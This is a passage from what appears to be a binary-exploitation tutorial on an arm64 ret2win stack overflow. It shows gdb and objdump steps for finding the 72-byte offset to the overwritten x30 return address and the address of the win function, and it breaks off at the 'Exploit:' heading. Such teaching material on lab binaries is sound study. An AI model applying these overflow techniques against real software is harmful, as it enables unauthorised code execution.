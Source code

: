 arm64 will try to return to the address in the register x30 (which was compromised), we can use that to find the pattern offset:

```bash
pattern search $x30
```

<figure><img src="../../../.gitbook/assets/image (1206).png" alt=""><figcaption></figcaption></figure>

**The offset is 72 (9x48).**

### Stack offset option

Start by getting the stack address where the pc register is stored:

```bash
gdb -q ./ret2win
b *vulnerable_function + 0xc
run
info frame
```

<figure><img src="../../../.gitbook/assets/image (1207).png" alt=""><figcaption></figcaption></figure>

Now set a breakpoint after the `read()` and continue until the `read()` is executed and set a pattern such as 13371337:

```
b *vulnerable_function+28
c
```

<figure><img src="../../../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

Find where this pattern is stored in memory:

<figure><img src="../../../.gitbook/assets/image (1209).png" alt=""><figcaption></figcaption></figure>

Then: **`0xfffffffff148 - 0xfffffffff100 = 0x48 = 72`**

<figure><img src="../../../.gitbook/assets/image (1210).png" alt="" width="339"><figcaption></figcaption></figure>

## No PIE

### Regular

Get the address of the **`win`** function:

```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```

Exploit:
